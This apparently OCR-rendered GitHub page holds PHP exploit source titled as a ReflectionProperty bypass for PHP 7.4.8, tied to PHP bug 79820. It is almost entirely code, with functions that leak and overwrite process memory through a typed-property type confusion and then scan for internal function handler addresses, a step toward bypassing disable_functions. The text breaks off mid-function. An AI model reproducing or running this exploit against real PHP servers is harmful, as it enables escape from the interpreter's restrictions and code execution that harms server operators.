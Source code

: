 

## php7.4.8 ReflectionProperty-bypass exp

```php
<?php
# Bug: https://bugs.php.net/bug.php?id=79820
global $abc, $helper;
class Test {
public HelperHelperHelperHelperHelperHelperHelper $prop;
}
class HelperHelperHelperHelperHelperHelperHelper {
public $a, $b;
}
function s2n($str) {
$address = 0;
for ($i=0;$i<4;$i++){
$address <<= 8;
$address |= ord($str[4 + $i]);
}
return $address;
}
function s2b($str, $offset){
return hex2bin(str_pad(dechex(s2n($str) + $offset - 0x10), 8, "0",
STR_PAD_LEFT));
}
function leak($offset) {
global $abc;
$data = "";
for ($i = 0;$i < 8;$i++){
$data .= $abc[$offset + 7 - $i];
}
return $data;
}
function leak2($address) {
global $helper;
write(0x20, $address);
$leak = strlen($helper -> b);
$leak = dechex($leak);
$leak = str_pad($leak, 16, "0", STR_PAD_LEFT);
$leak = hex2bin($leak);
return $leak;
}
function write($offset, $data) {
global $abc;
$data = str_pad($data, 8, "\x00", STR_PAD_LEFT);
for ($i = 0;$i < 8;$i++){
$abc[$offset + $i] = $data[7 - $i];
}
}
function get_basic_funcs($std_object_handlers) {
$prefix = substr($std_object_handlers, 0, 4);
$std_object_handlers = hexdec(bin2hex($std_object_handlers));
$start = $std_object_handlers & 0x00000000fffff000 | 0x0000000000000920; #change 0x920 if finding failed
$NumPrefix = $std_object_handlers & 0x0000ffffff000000;
$NumPrefix = $NumPrefix - 0x0000000001000000;
$funcs = get_defined_functions()['internal'];
for($i = 0; $i < 0x1000; $i++) {
$addr = $start - 0x1000 * $i;
$name_addr = bin2hex(leak2($prefix . hex2bin(str_pad(dechex($addr - 0x10), 8,
"0", STR_PAD_LEFT))));
if (hexdec($name_addr) > $std_object_handlers || hexdec($name_addr) <
$NumPrefix) {
```